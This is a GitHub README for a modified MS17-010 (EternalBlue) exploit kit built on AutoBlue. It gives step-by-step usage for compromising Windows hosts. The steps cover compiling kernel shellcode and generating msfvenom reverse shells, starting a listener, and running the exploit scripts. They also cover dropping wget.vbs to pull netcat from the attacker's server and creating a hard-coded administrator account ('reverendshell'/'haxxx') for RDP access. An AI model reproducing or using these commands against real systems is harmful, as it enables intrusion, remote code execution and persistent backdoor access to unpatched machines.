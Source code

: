 ########################### Auto Blue Light Special ###########################
It's called Auto Blue Light Special because it's just a modification of AutoBlue and because of a conversation my friend Julien and I were having about the old school K-Mart blue light specials

This is a modification of 3ndG4me's AutoBlue found here: https://github.com/3ndG4me/AutoBlue-MS17-010
I also stole the code to add a user from thel3l: https://gist.github.com/thel3l/993f8ed81a56e10525dd4812ad01ff2a

# What does this script do?
This script exploits MS17-010 then writes wget.vbs to a folder and gives you a limited shell. You can use wget.vbs to transfer a file to the victim (nc.exe or maybe your custom executable) to obtain a not-so-limited shell. It also creates a user and adds that user to the administrators group so you can RDP to the machine.

# Have you tested this?
Only on Windows XP x86. It's only going to work when using the zzz_exploit.py script. You might be able to re-use my code in eternalblue_exploit(7,8,10).py to perform these actions. Maybe, maybe not. I haven't tried. To find my modifications, open zzz_exploit.py and ctrl+f for ReverendShell.

# Why did I modify this script?
I was rooting an XP box and was using AutoBlue because I really like it. It just works. However it gives you a rather limited, non-interactive shell. You can't change directories with this shell, I couldn't echo text to a file and I couldn't copy files from a SMB share (which I don't think is the shell's fault). I needed a better shell but to do that required some way of transferring a file to the victim. I could run cscript but I couldn't echo to a file, hence the modification. With wget.vbs you can download a file you're hosting on, say, a python SimpleHTTPServer. Later on I found thel3l's code to add a user and incorporated it into this script.

# How do I use it?
Follow the directions as written. If everything is successful the output will display which folder the wget.vbs file is in. From there simply issue:
`> cscript c:\foldername\wget.vbs http://your.ip.here:port/ncWin32.exe c:\path\on\victim\ncWin32.exe`

And if you want to RDP to the target after the script is run you can issue:
`# rdesktop -u reverendshell x.x.x.x`
The password will be: haxxx

You may view a demo video here: https://youtu.be/HOvV0utZK_w

########################### Auto Blue Light Special ###########################
####### Everything below this line is from the original AutoBlue README #######

# MS17-010 Exploit Code

This is some no-bs public exploit code that generates valid shellcode for the eternal blue exploit and scripts out the event listener with the metasploit multi-handler.

This version of the exploit is prepared in a way where you can exploit eternal blue WITHOUT metasploit. Your options for auto shell generation are to generate shellcode with msfvenom that has meterpreter (i.e. with metasploit) or to generate a normal windows cmd shell (i.e. without metasploit). You may also select between staged and stageless payloads if you wish to avoid utilizing the msfconsole entirely and use netcat/your own shell handler. Alternatively you can elect to brew in your own shellcode.

This allows for this version of the MS17-010 exploit to be a bit more flexible, and also fully functional, as many exploits leave out the steps to compile the kernel shellcode that usually comes with it.

Included is also an enternal blue checker script that allows you to test if your target is potentially vulnerable to MS17-010

run `python eternalblue_checker.py <TARGET-IP>`


## TODO:
1. Testing with non-msfvenom shellcode

## VIDEO TUTORIALS:
- https://www.youtube.com/watch?v=p9OnxS1oDc0
- https://youtu.be/2FwqryKUoX8


## USAGE:
Navigate to the `shellcode` directory in the repo:

run `./shell_prep.sh`

Follow the prompts, for example:
```
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

Let's compile them windoos shellcodezzz

Compiling x64 kernel shellcode
Compiling x86 kernel shellcode
kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
y
LHOST for reverse connection:
<YOUR-IP>
LPORT you want x64 to listen on:
<SOME PORT>
LPORT you want x86 to listen on:
<SOME OTHER PORT>
Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
0
```

After the script finishes there will be a shellcode binary named `sc_all.bin` in the shellcode directory


Next, navigate to the main repo directory:

run `listener_prep.sh`

Follow the prompts, for example:
```
 /,-
  ||)
  \\_, )
   `--'
Enternal Blue Metasploit Listener

LHOST for reverse connection:
<YOUR-IP>
LPORT for x64 reverse connection:
<SOME PORT>
LPORT for x86 reverse connection:
<SOME OTHER PORT>
Enter 0 for meterpreter shell or 1 for regular cmd shell:
0
Starting listener...
```

## PWN:
If you have completed the USAGE steps, now you're ready to PWN the target.

run:

`python eternalblue_exploit7.py <TARGET-IP> <PATH/TO/SHELLCODE/sc_all.bin> <Number of Groom Connections (optional)>`

Alternatively you may use `zzz_exploit.py` which is an implementation of the "Eternal" family that uses the same technique from Eternal Romance, Synergy, and Champion.

This is not setup to send back a reverse shell or execute any sort of payload like Eternal Blue is. This uses the functions from mysmb.py to spawn a semi-interactive cmd shell. There are commented out sections of code that can be modified to interact with metasploit or send of custom payloads using the `service_exec()` function call.

All of the code execution functionality can be found in the `do_system_mysmb_session()` function.

This version of the exploit is great for targeting systems that have named pipes available to avoid crashing the target.

run:

`python zzz_exploit.py <TARGET-IP>`


Enternal Blue has only been tested on Windows 7/Server 2008, and Windows 10 10240 (x64)

zzz has only been tested on Windows XP

However the Eternal Blue exploits included in this repo also include support for Windows 8/Server 2012 and *should* work.

The zzz exploit should also work on all targets provided you have access to a named pipe. For some OS's (Windows 10) this may also require credentials of a user who can access this named pipe (This is because on newer versions, Guest and NULL sessions are not supported out of the box).

The original exploit code that this repo pulls from is located here: https://github.com/worawit/MS17-010
